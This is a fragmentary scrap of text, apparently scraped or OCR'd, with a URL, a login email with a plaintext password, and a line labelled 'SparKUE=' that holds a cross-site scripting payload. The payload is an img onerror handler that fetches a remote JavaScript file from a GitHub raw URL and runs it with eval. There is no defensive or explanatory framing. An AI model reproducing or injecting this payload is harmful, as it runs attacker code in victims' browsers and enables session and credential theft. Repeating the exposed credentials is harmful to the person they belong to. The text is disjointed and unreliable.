 alien hub=  https://lowcastimports.com/?code=12345
     Login
  lukasbonthy@gmail.com
  temp123456

SparKUE= <img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'
